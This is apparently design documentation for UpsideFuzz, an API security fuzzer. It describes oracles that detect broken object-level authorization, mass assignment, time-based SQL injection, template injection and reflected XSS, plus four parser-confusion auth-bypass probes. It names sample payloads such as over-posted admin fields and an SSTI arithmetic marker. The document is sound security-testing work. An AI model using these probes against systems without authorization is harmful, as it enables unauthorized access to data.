## SARIF Findings Export (`sarif.go`, Top-20+ #16)
Opt-in (`-sarif-file`): writes the run's findings as SARIF 2.1.0 alongside the existing
JSON report, so they drop directly into GitHub code scanning / DefectDojo / any other
SARIF-consuming dashboard with no custom parser. `noise`/`target_misconfiguration`
classifications are excluded, matching every other report this project emits.
The one real design decision — what a SARIF "rule" should *be* for a fuzzer that has no
fixed static-analysis checker catalog — reuses machinery this section already
describes: a rule is a strong, specific oracle reason tag (`sqli_time_based`,
`bola_identical_cross_identity_response`, ...) when the finding carries one, or
otherwise the finding's own root-cause `ClusterKey` (above), with the cluster's label as
the human-readable rule description. `sarifStrongReasonTags` is an explicit *allowlist*
of specific tags, not a denylist of generic ones (`server_error`, `dev_stack`,
`post_auth_execution`, ...) — verified necessary against a real Bitwarden run, where the
generic `server_error` tag (present on nearly every 500 regardless of cause) accounted
for 1,601 of 1,602 naive rule-id picks before the allowlist existed, collapsing every
distinct exception type into one bucket.

## Vulnerability Oracles (`oracle.go`)
Because a 500 is only a robustness signal, UpsideFuzz adds oracles that reuse the multi-identity and mutation machinery to detect *actual* vulnerabilities:
- **BOLA/IDOR + broken auth:** After any successful resource-scoped request under an authenticated identity, the identical request is replayed under every *other* identity and with *no* credentials. A 2xx returning a real body to a different or anonymous principal is a Broken Object-Level Authorization or broken-authentication finding (`access_control: true`, `origin_identity` → `shadow_identity`). Identical bodies score `likely_vuln_high`; differing 2xx bodies score `likely_vuln` and are flagged for manual verification. **Auth-bypass precondition:** the no-credential probe only fires on endpoints the engine has already seen reject unauthenticated access (401/403) — tracked in `authRequiredEndpoints` with a strength (2 = rejected an unauthenticated caller, 1 = rejected someone). A truly public endpoint never accumulates evidence, so it is never flagged, eliminating the public-endpoint false positive. Each oracle has its own flag (`-probe-bola`, `-probe-auth-bypass`, `-probe-mass-assign`) under the `-access-probe` master toggle.
- **Mass assignment:** After a successful write (POST/PUT/PATCH with a JSON object body), the body is re-sent with privileged fields over-posted (`isAdmin`, `role:"SuperAdmin"`, `permissions:["*"]`, `accessLevel:99999`, …). If the server echoes an injected privileged field back with its injected value, it accepted an over-posted field — reported `likely_vuln` (`mass_assignment_privileged_field_accepted`). Values are chosen to be unlikely natural states to keep false positives low.
- **Positive injection:** On non-crash responses where a security-category payload was applied, the engine detects time-based SQLi (latency ≥ threshold and ≥3× baseline on sleep/benchmark payloads), evaluated SSTI (rare arithmetic markers such as `{{1337*1337}}` → `1787569` present but not merely reflected), and reflected XSS. The mutation registry also includes a `dotnet_deser` category of Json.NET `$type` gadget payloads for insecure-deserialization detection.
- **Differential / parser-confusion auth bypass (Top-20 #18):** `oracle.go::maybeEnqueueDifferentialProbes` fires after a successful, resource-scoped request under an authenticated identity, but **only** on endpoints with *strong* evidence of auth enforcement — `authRequiredEndpoints` strength 2, meaning a plain credential-free request was already rejected with 401/403. That precondition is what makes this a distinct class from plain auth-bypass: it's not "does removing auth work" (already tested), it's "does removing auth work *when combined with a confusion technique* that already-failed literal replay didn't use." Four independent NoAuth probe variants, each gated on being structurally applicable to the origin request:
  - **verb** — GET origin replayed as HEAD only (semantically "GET minus body", so a bypass is a genuine same-data finding; mutating verbs are excluded since they'd change request semantics, not just authorization).
  - **content-type** — identical body bytes, `Content-Type` swapped from `application/json` to `text/plain;charset=UTF-8` (some auth/CSRF middleware only gates requests declared as JSON).
  - **route-case** — `swapPathSegmentCase` flips the first letter of each path segment (ASP.NET routing is case-insensitive by default; custom auth-attribute/WAF/reverse-proxy path matching sometimes isn't).
  - **param-location** — `appendQueryParam` duplicates the path-embedded resource id as a same-named query parameter (tests whether a differently-sourced same-named parameter routes through a different model-binding/authorization path; deliberately duplicates the *same* id rather than a differently-owned one — true cross-tenant object-ownership testing needs the ownership-matrix infra that is Top-20 #8, still open).

  A 2xx with a real, non-error-shaped body on any variant is `likely_vuln_high` (`differential_auth_bypass:<technique>`), reusing `recordAccessControlFinding` with the technique folded into both the dedup key (so all 4 techniques on one endpoint are tracked as distinct findings, not deduped against each other) and the triage `technique` field. Gated by `-probe-differential` under the `-access-probe` master toggle.

## Profiles (`-profile`)
To tame the 90-flag surface, `-profile fast|deep|security` applies a curated bundle of defaults — but only to flags the user did **not** explicitly pass (tracked via `flag.Visit`), so any individual flag still wins. `security` prioritizes the oracles and multi-identity coverage; `deep` is a balanced thorough scan; `fast` maximizes throughput for CI.

## Sequence Engine & Fallback Mechanics
The Sequence Engine actively stitches complex API workflows (e.g., `POST /stores` → extracts ID → `PUT /stores/{id}`).
- **Trigger Rate:** Dictated by the `-sequence-prob` flag (e.g., `0.35` means 35% of all executions are actively stitched sequences).
- **Fallback Validation:** If a producer request fails (e.g., validation error preventing store creation), the downstream consumer lacks a valid ID. Instead of failing or passing a literal unresolved placeholder (e.g., `_api_v1_stores_post_id` — the naming convention `tools/grammar/grammarc/dependencies.py` also follows for its own payload keys), the engine dynamically falls back to generating fuzzed variables (e.g., randomly generated UUIDs, `NaN`, `-Infinity`). This ensures that even "failed" sequences result in robust Resource-Based Authorization and input validation testing against downstream endpoints.

---

**→ [Back to ARCHITECTURE.md](overview.md) · [Docs Index](../index.md)**
